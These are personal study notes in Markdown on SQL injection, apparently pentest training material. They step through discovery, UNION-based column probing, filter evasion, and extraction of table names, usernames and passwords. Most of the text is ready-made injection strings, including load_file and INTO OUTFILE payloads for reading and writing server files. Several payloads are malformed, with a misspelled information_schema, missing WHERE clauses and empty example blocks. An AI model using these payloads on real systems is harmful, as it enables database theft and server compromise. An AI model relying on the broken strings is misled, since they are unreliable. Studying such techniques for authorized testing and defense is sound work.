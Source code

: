## Chapter 9 : SQL 


1) Check user input vulnerability points : URL, fields, User-agent, Language 


2) Test the user inputs with basic payloads to check if the vulnerability and type of injections : __Blind, Band, Error_Based__ SQL


3) Query the number of the columns in the databasee


4) Find out the datatype of the columns


5) Extract basic information as the version or database name 


&nbsp;
&nbsp;
&nbsp;


### Discovery


__Type 1:Straightforward__



1- Submit a single quotation mark as the item of data you are targeting.



__Basic Discovery Commands :__



Examples :


>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;



2- It is important to keep in mind that not all vulnerabilities are straighforward. It is essential while testing to look for 
   the behavior of the application:


	- Error_based: the application shows the error to the end user 


	- Blind does not show any thing back to the user. It is mainly revolves on booleans of True or False (application behavior)


	- Band


__Note:__ It is always recommend to probe the applcation as Blind SQL injection, if the basic payloads did not work 




__Type 2:Bypass Filters __


1- Use the above commands in encoding manner in order to bypass filters 


__Basic Encodign Commands:__


Examples:


>>


>>



--------------------------------------------------------------------------------------------------------------------

### Probing the Database 


__The UNION Operator__


1- Easily extract arbitrary data from within
  the database


2- UNION is supported by all major DBMS products.


3- Your first task is to discover the number of columns returned by the original
  query being executed by the application. You can do this in two ways:


4- You can exploit the fact that NULL can be converted to any data type to
  systematically inject queries with different numbers of columns until your
  injected query is executed

  __Ex: ‘ UNION SELECT NULL--
      ‘ UNION SELECT NULL, NULL--
      ‘ UNION SELECT NULL, NULL, NULL--__


5- Having identified the required number of columns, your next task is to
  discover a column that has a string data type so that you can use this to
  extract arbitrary data from the database


  __EX: ‘ UNION SELECT ‘a’, NULL, NULL--__
      ‘ UNION SELECT NULL, ‘a’, NULL--
      ‘ UNION SELECT NULL, NULL, ‘a’--__


6- In Oracle databases, every SELECT statement must include a FROM
  attribute, so injecting UNION SELECT NULL produces an error regardless of
 the number of columns. You can satisfy this requirement by selecting from the
 globally accessible table DUAL. For example:


   __EX: ‘ UNION SELECT NULL FROM DUAL--__



7- When you have identified the number of columns required in your injected
  query, and have found a column that has a string data type, you are in a position
  to extract arbitrary data.

  __EX: ‘ UNION SELECT @@version,NULL,NULL--
	
     ‘ UNION SELECT banner,NULL,NULL FROM v$version-- | ORACLE__



&nbsp;
&nbsp;
&nbsp;

-------------------------------------------------------------------------------------------------

### Exploitation : 


__Extracting Data with UNION__


__Type 1: Straightforward___


1- Find out the names of the database tables and columns that
  may contain interesting information


  __EX: Name=Matthew’%20union%20select%20table_name,column_name,null,null,
      null%20from%20information_schema.columns--__


2- Select the required column

	__Ex: Name=Matthew’%20UNION%20select%20username,password,null,null,null%20  
	from%20users--__



__Note:__

The information_schema is supported by MS-SQL, MySQL, and many
other databases, including SQLite and Postgresql. It is designed to hold database
metadata,EXCEPT ORACLE


__ORACLE: SELECT table_name,column_name FROM all_tab_
	columns to retrieve information about tables and columns in the database.__



3- Search for interesting pieces of inforamtion:

 __EX: SELECT table_name,column_name FROM information_schema.columns where
      column_name LIKE ‘%PASS%’__

&nbsp;
&nbsp;


__Type 2 : Bypass Filters__


__Method 1:__  Sometimes when injecting the payload, it wont work as the url is encoded or common characters are removed 


 >> select ename,sal from emp where ename=’marcus’:


__Encoding with ASCII__

	__Ex: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)__


	__Ex: SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)__



__Method 2:__  if the query does not work, there might be a filter for words :


	__Ex: 	SeLeCt
		%00SELECT
		SELSELECTECT
		%53%45%4c%45%43%54
		%2553%2545%254c%2545%2543%2554__


__Method 3:__ Using SQL Comments

		
	__EX: SELECT/*foo*/username,password/*foo*/FROM/*foo*/users__

	     __SEL/*foo*/ECT username,password FR/*foo*/OM users___



__Method 4:__ Dealing with single quotes issue:

		

- Sometimes single quote causes error in the database 

		
		
- To exploit this vulnerability, an attacker can simply register a username
  containing his crafted input, and then attempt to change his password. 


 __EX: ‘ or 1 in (select password from users where username=’admin’)--___


&nbsp;
&nbsp;

## More Examples :


>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb 











